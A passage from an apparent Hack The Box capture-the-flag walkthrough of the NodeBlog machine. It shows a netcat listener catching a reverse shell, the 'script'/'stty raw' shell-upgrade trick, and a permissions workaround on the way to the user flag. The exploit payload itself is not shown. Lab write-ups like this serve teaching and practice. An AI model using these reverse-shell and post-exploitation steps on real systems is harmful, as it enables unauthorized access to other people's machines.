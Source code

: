
On sending in Repeater, I got a shell:

    
    
    oxdf@parrot$ nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.139 38464
    bash: cannot set terminal process group (849): Inappropriate ioctl for device
    bash: no job control in this shell
    To run a command as administrator (user "root"), use "sudo <command>".
    See "man sudo_root" for details.
    
    bash: /home/admin/.bashrc: Permission denied
    admin@nodeblog:/opt/blog$
    

I’ll upgrade it using the `script` trick:

    
    
    admin@nodeblog:/opt/blog$ script /dev/null -c bash
    script /dev/null -c bash
    Script started, file is /dev/null
    To run a command as administrator (user "root"), use "sudo <command>".
    See "man sudo_root" for details.
    
    bash: /home/admin/.bashrc: Permission denied
    admin@nodeblog:/opt/blog$ ^Z
    [1]+  Stopped                 nc -lnvp 443
    oxdf@parrot$ stty raw -echo; fg
    nc -lnvp 443
                reset
    admin@nodeblog:/opt/blog$
    

### user.txt

At least on initial deploy to HTB, the machine went out with strange
permissions on `/home/admin`. This is first visible when I load the shell and
get an error: “bash: /home/admin/.bashrc: Permission denied”.

The directory is set to 644:

    
    
    admin@nodeblog:/home$ ls -l
    total 0
    drw-r--r-- 1 admin admin 220 Jan  3 17:16 admin
    

Without `x` on the dir, I can’t go into it. Interestingly, even though
`user.txt` is readable by admin, I can’t read it:

    
    
    admin@nodeblog:/home$ cat admin/user.txt
    cat: admin/user.txt: Permission denied
    

But, as admin is the owner of the directory, I can change the permissions, and
get the flag:
